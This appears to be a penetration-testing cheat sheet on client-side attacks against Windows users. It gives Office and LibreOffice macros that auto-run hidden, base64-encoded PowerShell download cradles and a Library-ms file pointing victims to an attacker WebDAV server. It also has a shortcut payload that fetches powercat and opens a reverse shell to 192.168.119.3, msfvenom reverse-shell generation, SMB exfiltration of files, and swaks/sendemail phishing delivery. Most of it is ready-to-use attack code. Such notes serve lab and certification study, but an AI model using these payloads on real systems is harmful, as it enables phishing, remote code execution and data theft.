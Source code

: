 # Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

# Useful splitter
- Splitter.py 
    ```
        s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoA7AA=="
        n = 50
        for i in range(0, len(s), n):
            chunk = s[i:i + n]
            print('Str = Str + "' + chunk + '"')
    ```

# Exploit Microsoft Office

## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use y: \\192.168.45.243\SHARE /user:kali kali
    Move-Item -Path 20240623021511_BloodHound.zip -Destination \\192.168.45.243\SHARE\20240623021511_BloodHound.zip
    ```

- Macro example: 
    ``` 
        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            
            Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
                Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
                Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
            ...
                Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
                Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
                Str = Str + "A== "

            CreateObject("Wscript.Shell").Run Str
        End Sub
    ``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- create a folder for this
1. Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```
- sendemail
    ``` sendemail -f 'jonas@localhost' \
        -t 'mailadmin@localhost' \
        -s 192.168.244.140:25 \
        -u 'a spreadsheet' \
        -m 'Please check this spreadsheet' \
        -a exploit.ods 
    ```


## Exploit Libre Office
1. Prepare payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f hta-psh -o evil.hta ```
2. Split the file
3. open new .ods file and add macro under the file
   ```
    Sub Macro 
    Dim Str as String
    Str = Str + "cmd /c powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
...
    Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
    Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
    Str = Str + "A== "
    Shell(Str)

   ```
4. Enable auto-run once this excel is open: Tools → Customize